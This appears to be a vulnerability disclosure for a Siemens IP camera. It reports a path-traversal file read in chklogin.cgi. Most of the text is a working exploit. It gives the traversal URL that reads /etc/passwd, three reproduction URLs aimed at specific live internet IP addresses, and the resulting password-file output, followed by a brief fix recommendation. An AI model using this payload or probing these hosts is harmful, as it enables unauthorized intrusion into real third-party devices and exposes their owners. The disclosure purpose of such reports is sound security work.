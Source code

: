 # SIEMENS-IP-Camera
# Please do not forward without authorization.
## Vulnerability Report
### Vulnerability Description
Summary: Siemens monitoring has an arbitrary file read vulnerability. Attackers can read files arbitrarily through commands, affecting more than 150 devices on the Internet.
![image](https://github.com/user-attachments/assets/730b3450-15c1-4ebf-9169-24cf984c9e59)

### Affected Versions
var version="x.2.2.2458_SP1";var customer="2";var Cab_Name="SMCam3Codec.CAB";var Cab_Ver="1,19,0,0";var Applet_Ver="1.0.2.18";var Mcu_Ver="0"

### Vulnerability Details
Detailed information: 127.0.0.1/cgi-bin/chklogin.cgi?file=../../../../../../../../etc/passwd

### Reproduction Steps
Reproduction steps: 
http://176.189.154.58:8000/cgi-bin/chklogin.cgi?file=../../../../../../../../etc/passwd
![image](https://github.com/user-attachments/assets/88736cf1-e5ce-48a9-91ce-0b4c65e3b95b)

http://217.228.148.84:8082/cgi-bin/chklogin.cgi?file=../../../../../../../../etc/passwd
![image](https://github.com/user-attachments/assets/64514a3a-4b45-431c-818f-4893c11bade0)

http://95.209.158.150:8001/cgi-bin/chklogin.cgi?file=../../../../../../../../etc/passwd
![image](https://github.com/user-attachments/assets/13f6b445-aaee-47f2-9d0e-d934c9c0983a)



### Expected Result
Expected result: 
root::0:0:root:/root:/bin/sh bin:*:1:1:bin:/bin: daemon:*:2:2:daemon:/usr/sbin: sys:*:3:3:sys:/dev: adm:*:4:4:adm:/var/adm: lp:*:5:7:lp:/var/spool/lpd: sync:*:6:8:sync:/bin:/bin/sync shutdown:*:7:9:shutdown:/sbin:/sbin/shutdown halt:*:8:10:halt:/sbin:/sbin/halt mail:*:9:11:mail:/var/spool/mail: news:*:10:12:news:/var/spool/news: uucp:*:11:13:uucp:/var/spool/uucp: operator:*:12:0:operator:/root: games:*:13:100:games:/usr/games: ftp:*:15:14:ftp:/var/ftp: man:*:16:100:man:/var/cache/man: telnetd:*:17:100:telnetd:/var/tmp: nobody:*:65534:65534:nobody:/home:/bin/sh avahi:x:500:103:Linux User,,,:/home/avahi:/bin/sh avahi-autoipd:x:501:104:Linux User,,,:/home/avahi-autoipd:/bin/sh 

### Actual Result
Actual result: 
root::0:0:root:/root:/bin/sh bin:*:1:1:bin:/bin: daemon:*:2:2:daemon:/usr/sbin: sys:*:3:3:sys:/dev: adm:*:4:4:adm:/var/adm: lp:*:5:7:lp:/var/spool/lpd: sync:*:6:8:sync:/bin:/bin/sync shutdown:*:7:9:shutdown:/sbin:/sbin/shutdown halt:*:8:10:halt:/sbin:/sbin/halt mail:*:9:11:mail:/var/spool/mail: news:*:10:12:news:/var/spool/news: uucp:*:11:13:uucp:/var/spool/uucp: operator:*:12:0:operator:/root: games:*:13:100:games:/usr/games: ftp:*:15:14:ftp:/var/ftp: man:*:16:100:man:/var/cache/man: telnetd:*:17:100:telnetd:/var/tmp: nobody:*:65534:65534:nobody:/home:/bin/sh avahi:x:500:103:Linux User,,,:/home/avahi:/bin/sh avahi-autoipd:x:501:104:Linux User,,,:/home/avahi-autoipd:/bin/sh 

### Fix Recommendation
Fix recommendation: Strictly validate user input, normalize paths, restrict access to directories and file types, set appropriate permissions, and ensure directory containment policies.
